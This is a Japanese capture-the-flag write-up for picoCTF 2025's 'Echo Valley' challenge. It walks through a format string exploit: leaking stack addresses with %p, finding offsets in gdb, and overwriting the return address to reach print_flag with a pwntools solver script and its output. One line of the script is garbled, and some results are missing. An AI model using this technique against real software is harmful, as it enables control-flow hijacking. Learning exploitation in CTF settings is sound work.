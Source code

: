 # picoCTF2025　Echo Valley

全問のPIE TIME系列を進化させたような問題

printfの脆弱性Format String Bugで解く（%pでポインタを表示させて現在のアドレスを知り、そこから逆算してそのprintfとmainの距離を調べる）

攻撃方法として、echo_valleyのリターンアドレスを書き換えることでprint_flag関数へ飛ばし、フラグを手に入れるという方法をとる。

まずは、入力がスタックの何番目からはじまるのかを調べる
```
AAAA.%p.%p.%p.%p.%p.%p.%p.%p.%p
```
このように送り、AAAAの16進数である0x41414141の場所を調べる
このとき、このプログラムはリトルエンディアンで動いているため、0x2e70252e41414141として帰ってくる
```
Welcome to the Echo Valley, Try Shouting: 
AAAA.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p
You heard in the distance: AAAA.0x7fffffffda70.(nil).(nil).0x5555555596d9.0x410.0x2e70252e41414141.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0xa.(nil)
```

次に、echo_valleyのリターンアドレスがほしい

echo_valleyにブレークポイントを置き、一度動かす。
```
(gdb) b echo_valley
Breakpoint 2 at 0x555555555313: file /home/valley/valley.c, line 20.

(gdb) r
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /mnt/c/Users/tonoe/OneDrive/ドキュメント/ctf/picoCTF2025/Echo_Valley/valley 
Downloading separate debug info for system-supplied DSO at 0x7ffff7fc3000
[Thread debugging using libthread_db enabled]                                                                    
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

Breakpoint 2, echo_valley () at /home/valley/valley.c:20
20      void echo_valley() {
```

ここで、mainのアセンブリ命令の位置とスタックの中身を調べる

```
(gdb) disas main
Dump of assembler code for function main:
   0x0000555555555401 <+0>:     endbr64
   0x0000555555555405 <+4>:     push   %rbp
   0x0000555555555406 <+5>:     mov    %rsp,%rbp
   0x0000555555555409 <+8>:     mov    $0x0,%eax
   0x000055555555540e <+13>:    call   0x555555555307 <echo_valley>
   0x0000555555555413 <+18>:    mov    $0x0,%eax
   0x0000555555555418 <+23>:    pop    %rbp
   0x0000555555555419 <+24>:    ret
End of assembler dump.

(gdb) x/20gx $rsp
0x7fffffffdc20: 0x0000000001000000      0x0000000000080000
0x7fffffffdc30: 0x0000000000008000      0x00007fffffffdc68
0x7fffffffdc40: 0x0000004400000019      0x0000000000000000
0x7fffffffdc50: 0x0000000000000000      0x0000000000000000
0x7fffffffdc60: 0x0000000000000000      0x0000000000000000
0x7fffffffdc70: 0x0000000000000000      0x0000000000000000
0x7fffffffdc80: 0x0000000000000000      0x00007ffff7fe5af0
0x7fffffffdc90: 0x00007fffffffdca0      0x0000555555555413
0x7fffffffdca0: 0x00007fffffffdd40      0x00007ffff7dcf1ca
0x7fffffffdcb0: 0x00007fffffffdcf0      0x00007fffffffddc8
```

```
0x000055555555540e <+13>:    call   0x555555555307 <echo_valley>
```
は関数の呼び出しであり、
```
0x0000555555555413 <+18>:    mov    $0x0,%eax
```
が関数echo_valleyのリターンアドレスである。リターンアドレス0x0000555555555413はスタックの16番目に存在することがわかる。

printfの仕様として、（この環境では）printfの引数は6個までレジスタから取られ、残りはスタックから取られるから14+6-1（1は重複分）である21番目にmain関数があることがわかる
main関数とprint_flag関数のアドレスの差を利用することで、この情報を使用することでwin関数の位置がわかる。

また、書き換えたい場所である現在のリターンアドレスがある場所である0x0000555555555413は0x7fffffffdc90+8の場所である。
これの位置もrで実際に実行して調べてみる(実行結果は忘れていました。)
```
.%15$p.%16$p.%17$p.%18$p.%19$p.%20$p.%21$p.%22$p
```
これの結果、20番目にあることがわかる。また、21番目にmain関数があることも確認できる。

main関数の位置、print_flag関数の位置を調べる
(実行結果はないですすみません)
```
p main
p print_flag
```
これにより、差分は0x1aa分であることがわかる。

手動で行うのは厳しいので、solverを使用する。
pwntoolsというツールを使用して作る。

```python
from pwn import *
#nc接続のための設定
context(arch='amd64', os='linux')
#p = process("./valley")
p = remote("shape-facility.picoctf.net", 65065)#←問題文によって変更する

# スタック上の位置を指すアドレスを取得する
p.recvuntil(b"Try Shouting: \n")
p.sendline(b"%20$p")#20番目を取る
p.recvuntil(b"the distance: ")
old_esp: int = int(p.recvline().strip(), 16)
addr_retaddr: int = old_esp - 0x8#リターンアドレスのある場所を特定している。そのための+8

# 書き換え後の値（print_flag関数のアドレス）を取得する
p.sendline(b"%21$p")#21番目を取る
p.recvuntil(b"the distance: ")
retaddr: int = int(p.recvline().strip(), 16)
win_addr: int = retaddr - 0x1aa#winとmainの距離分を引いている。これでwinのアドレスを得る。

# 書式文字列攻撃：pwntoolの機能を使う
writes_dict = {addr_retaddr: win_addr}
# payload.len < 100になるよう気をつける（入力bufのサイズ制限のため）
payload = fmtstr_payload(6, writes_dict, write_size="short")
print(payload)
p.sendline(payload)
# ここでrecvしたら動かず困った 何故かは不明

p.sendline(b"exかけてい
p.interactive()
```
payloadについての簡易的な説明
```python
payload = fmtstr_payload(6, writes_dict, write_size="short")
```
pwntoolsの強力な機能

6: あなたの入力がスタックの6番目から始まる、というオフセット。（最初のAAAA.%p・・・で特定した。）

writes_dict: 「addr_retaddrという場所に、win_addrという値を書き込んでね」という指示書

write_size="short": ペイロードを短くするためのテクニックで、2バイトずつ書き込む %hn を使う設定

実行結果は次の通りである。
```
$ uv run solver.py
[+] Opening connection to shape-facility.picoctf.net on port 65065: Done
b'%8809c%11$lln%14054c%12$hn%39419c%13$hna\xe8\xf3\x10\x17\xff\x7f\x00\x00\xec\xf3\x10\x17\xff\x7f\x00\x00\xea\xf3\x10\x17\xff\x7f\x00\x00'
[*] Switching to interactive mode
You heard in the distance:
(省略)
\x00a\xe8\xf3\x10\x17\xff\x7fThe Valley Disappears
Congrats! Here is your flag: picoctf{(省略)}
[*] Got EOF while reading in interactive
```

どうやらすでにあるものを使いまわしている人が多いっぽい
これを使いまわせば同じような問題は解けそう。

リターンアドレス格納しているメモリの位置が20番目になる理由とかはわからん。21番目の前に入れるものなのかな

参考

geminiに聞いたやつ　一番理解できた気がする
https://g.co/gemini/share/f68c547147c4
その他ブログ
https://zenn.dev/tetsurou/articles/6fe4d41a3f6f48#echo-valley---300pt
↓solve.pyはここからとってきた
https://everykalax.hateblo.jp/entry/2025/03/18/084018#Echo-Valley-binary-300